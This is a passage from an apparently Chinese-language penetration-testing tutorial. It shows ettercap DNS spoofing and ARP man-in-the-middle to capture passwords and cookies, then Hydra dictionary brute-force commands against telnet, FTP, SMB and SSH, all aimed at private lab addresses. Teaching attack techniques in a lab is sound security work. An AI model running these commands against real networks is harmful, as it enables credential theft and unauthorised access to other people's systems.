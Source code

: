 ③设置插件  
plugins》manage plugins》dns_spoof  
![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE733UTYTXXZVib74PRIjBfTnlzwB3EHuuJokb0eHA9PD6VkpuFCtCMGw/640?wx_fmt=png)  

④dns 欺骗  
这里也可以看到记录的密码

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEDvoQgQ2uNuERA2xg0lEUjp0XDOkTlW6YH1ZRsTRTXFyrBeotBmQzgA/640?wx_fmt=png)

⑤dns 欺骗成功

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE3fyWl8XX2LnvCLoz6MgS2Cedym5e3TkicGwHljQYt0vL7mgkibMia9lyw/640?wx_fmt=png)

**ettercap 命令行**

```
ettercap -T -q -i eth0 -M arp:remote /192.168.198.130// /192.168.198.2//
#目标：192.168.198.130
#网关：192.168.198.2
```

抓取密码成功，这里还能抓到 cookie，如果没法抓到密码可以抓 cookie 登录  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGERrYia5iaz4eTE2NAQ6prj5jk1ceLG4051UfrbcnHfoHJFnL6sjv2tcGg/640?wx_fmt=png)

**四、服务密码攻击**  
**1. 在线爆破  
**在线爆破受网络因素、字典、电脑性能影响较大。扫描端口分析服务进行爆破攻击：smb、telnet、ftp、rdp、mysql、mssql、ssh  
**Hydra 爆破 telnet**  

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 telnet://192.168.198.133:23
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOHNSHX8qLue8zt4r9L0mDEn01bJMuAtrkzz7q8fKNrD6G02ka8Klcw/640?wx_fmt=png)  

**Hydra 爆破 ftp**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ftp://192.168.198.133:21
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE4JDFDENZDNWhcUA0dJeYe4Pc27DvaxiacNYpM0oHEZEp0yOnGYvuXXg/640?wx_fmt=png)

**Hydra 爆破 smb**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 smb://192.168.198.133:445
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGE3aZH1ROprPiakK4K6BgLMetas9vR12ibY4e3ochLQK8ARAaJLqa8D1Zg/640?wx_fmt=png)

**Hydra 爆破 ssh**

```
hydra -L /root/dict/usename.txt -P /root/dict/password.txt -t 20 ssh://192.168.198.131:22
```
